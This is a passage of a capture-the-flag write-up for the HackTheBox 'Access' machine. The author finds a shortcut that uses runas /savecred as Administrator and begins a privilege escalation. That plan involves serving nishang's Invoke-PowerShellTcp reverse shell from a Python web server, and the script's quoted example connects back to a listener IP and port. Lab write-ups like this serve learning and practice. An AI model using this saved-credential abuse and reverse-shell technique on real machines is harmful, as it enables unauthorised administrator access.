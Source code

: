 ```
               1 File(s)            174 bytes
              10 Dir(s)  16,772,575,232 bytes free

C:\Users\Public>cd Desktop

C:\Users\Public\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\Public\Desktop

08/22/2018  10:18 PM             1,870 ZKAccess3.5 Security System.lnk
               1 File(s)          1,870 bytes
               0 Dir(s)  16,772,575,232 bytes free

```

I did `type` on that file.
![15f2e2c931dd61cae2921b2755850253.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-access/c45df566a0814b18b8d240c48f838fc2.png)

The interesting thing that catches my eye is:
```
runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred
```

>**runas** is a command in the Microsoft Windows line of operating systems that allows a user to run specific tools and programs under a different username.

>**/savecred**
Indicates if the credentials have been previously saved by this user. This parameter is not available and will be ignored on Windows Vista Home or Windows Vista Starter Editions. This parameter cannot be used with the /smartcard parameter.

So we can try to get a reverse shell from `nishang` with user `Administrator`. I used `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

## Privilege Escalation:

### Step 1:
Started python server on my machine.
```
root@w0lf:~/CTF/HTB/Boxes/Access# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

### Step 2:
If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
```
